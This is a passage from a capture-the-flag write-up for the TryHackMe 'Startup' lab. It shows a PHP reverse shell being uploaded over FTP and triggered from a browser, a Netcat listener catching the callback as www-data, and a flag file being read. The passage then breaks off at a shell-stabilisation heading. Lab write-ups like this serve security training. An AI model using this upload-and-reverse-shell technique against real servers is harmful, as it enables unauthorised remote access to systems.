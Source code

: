 ```bash
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 EPRT command successful. Consider using EPSV.
150 Ok to send data.
100% |**************************************************|  5494       31.00 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (17.47 KiB/s)
```

Now we have to trigger that, let's try in the browser to go to the directory :

![Pasted image 20250729214117.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250729214117.png)

There it is, let's try to open our listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) and click on that :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Startup]
└─$ nc -lvnp 1337 
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.239.22] 43812
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:42:17 up 56 min,  0 users,  load average: 0.00, 0.02, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We can see the **secret recipe** :

```
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```
## Shell Stabilization
